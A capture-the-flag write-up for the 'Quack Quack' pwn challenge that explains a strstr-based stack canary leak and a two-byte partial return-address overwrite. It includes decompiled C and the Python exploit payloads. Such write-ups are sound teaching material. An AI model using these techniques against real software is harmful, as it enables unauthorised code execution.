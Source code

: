 # Quack Quack Challenge Writeup

## Challenge Overview

The "Quack Quack" challenge involves a binary exploitation vulnerability in a program themed around ducks. This is a stack buffer overflow challenge with two key twists: exploiting the behavior of the `strstr()` function to leak stack data, and dealing with a partial overwrite of the return address due to limited write capability.

## Binary Analysis

Let's review the target binary's properties:

- Architecture: 64-bit (amd64)
- Protections:
  - RELRO: Full
  - Stack: Canary enabled
  - NX: Enabled
  - PIE: Disabled (base address fixed at 0x400000)
  - SHSTK & IBT: Enabled

The main functionality is in the `duckling()` function:

```c
void duckling() {
  char buf[32];
  char v3[80]; // Second buffer
  // Initialize buffers to zero
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, sizeof(v3));
  
  printf("Quack the Duck!\n\n> ");
  fflush(stdout);
  read(0, buf, 0x66);  // Read up to 102 bytes into a 32-byte buffer!
  
  char* v1 = strstr(buf, "Quack Quack ");
  if (!v1) {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6a);  // Read up to 106 bytes into an 80-byte buffer
  puts("Did you really expect to win a fight against a Duck?!\n");
}
```

The program also contains an unconnected `duck_attack()` function that reads and outputs the content of "flag.txt".

## The Core Vulnerabilities

After careful analysis, we can identify two key vulnerabilities:

### 1. The `strstr()` Pointer Manipulation

The most crucial vulnerability is in how the program uses `strstr()` and pointer arithmetic:

```c
char* v1 = strstr(buf, "Quack Quack ");
printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

When `strstr()` finds the substring "Quack Quack ", it returns a pointer to the beginning of that substring within the buffer. The program then adds 32 to this pointer (`v1 + 32`) before passing it to `printf()`.

**The key insight**: If we position "Quack Quack " at the very end of our controlled buffer, the `v1 + 32` will point past our buffer and into the stack, potentially exposing stack values including the canary!

### 2. Buffer Overflow with Limited Write

The second vulnerability is the classic buffer overflow in both reads:
- First read: 102 bytes into a 32-byte buffer
- Second read: 106 bytes into an 80-byte buffer

However, the limited size of these overflows means we can only partially overwrite the return address - specifically, we can only control the lower 2 bytes of the return address.

## Exploitation Strategy

The exploitation requires carefully chaining these vulnerabilities:

1. **Leak the canary**: Position "Quack Quack " precisely so that `v1 + 32` points to stack data containing the canary
2. **Bypass the canary**: Use the leaked canary in our second payload to avoid triggering stack protection
3. **Partial return address overwrite**: Since we can only write 2 bytes to the return address, we need to use those bytes to redirect execution to `duck_attack()` (0x40137f)

## Detailed Exploitation

### Step 1: Leaking the Canary

The critical part is finding the perfect offset to position "Quack Quack " so that `v1 + 32` points to the canary or other useful stack data:

```python
# First payload to leak the canary
target.recvuntil(b"> ")
first_payload = b"A" * 89 + b"Quack Quack "  # Precisely positioned!
target.sendline(first_payload)
```

What happens here:
1. We fill 89 bytes with 'A's
2. Then place "Quack Quack " at the end
3. This makes `strstr()` return a pointer to byte 89
4. Then `v1 + 32` points to byte 121, which is past our buffer and into stack data
5. When `printf()` prints from this address, it leaks stack values including the canary

```
Memory Layout:
[buffer (32 bytes)][overflow area][saved registers][canary][saved rbp][return addr]
                   ^             ^                 ^
                   |             |                 +-- What we want to leak
                   |             +-- Where v1+32 points to with the right offset
                   +-- Where our "Quack Quack " is placed
```

### Step 2: Extracting and Using the Canary

Once we get the response containing the leaked data:

```python
# Get response with leaked canary bytes
response = target.recvuntil(b"> ", drop=True)
leak = response.split(b'Quack Quack ')[1].split(b', ready')[0]

# Stack canaries start with a null byte, which we didn't leak
full_canary = b'\x00' + leak[:7]
canary = u64(full_canary)
```

### Step 3: Partial Return Address Overwrite

Now for the second buffer overflow, we can only control the lower 2 bytes of the return address:

```python
# Craft the second payload to execute duck_attack (address 0x40137f)
second_payload = b"A" * 88 + p64(canary) + b"B" * 8 + b"\x7f\x13"
target.sendline(second_payload)
```

What's happening here:
1. Fill the buffer with 88 bytes of padding
2. Place the exact canary value we leaked
3. Add 8 more bytes for saved RBP
4. Overwrite just the lower 2 bytes of the return address with "\x7f\x13"

The "\x7f\x13" bytes correspond to the lower bytes of the address 0x40137f (the `duck_attack()` function). Since the binary is not PIE-enabled, the higher bytes of the address remain 0x0040, allowing our partial overwrite to successfully redirect execution.

## Key Insights

1. **The `strstr()` + 32 Vulnerability**: The critical insight was understanding that the `v1 + 32` pointer arithmetic could be manipulated to point outside of our controlled buffer and into stack memory.

2. **Buffer Structure Analysis**: Careful analysis of the stack layout was necessary to position "Quack Quack " at exactly the right offset to leak useful data.

3. **Partial Overwrite Technique**: Understanding that even though we could only control 2 bytes of the return address, this was sufficient due to the non-PIE nature of the binary and the favorable address of `duck_attack()`.

## Conclusion

This challenge combines several interesting binary exploitation concepts:
- Pointer manipulation to leak stack data
- Stack canary bypass through information leakage
- Partial return address overwrite

The most elegant aspect of this exploit is how it leverages the `strstr()` behavior and pointer arithmetic to turn what seems like a simple text-processing vulnerability into a powerful information leak that enables the rest of the attack.

Flag: (The flag would be obtained by running the exploit against the actual challenge server)
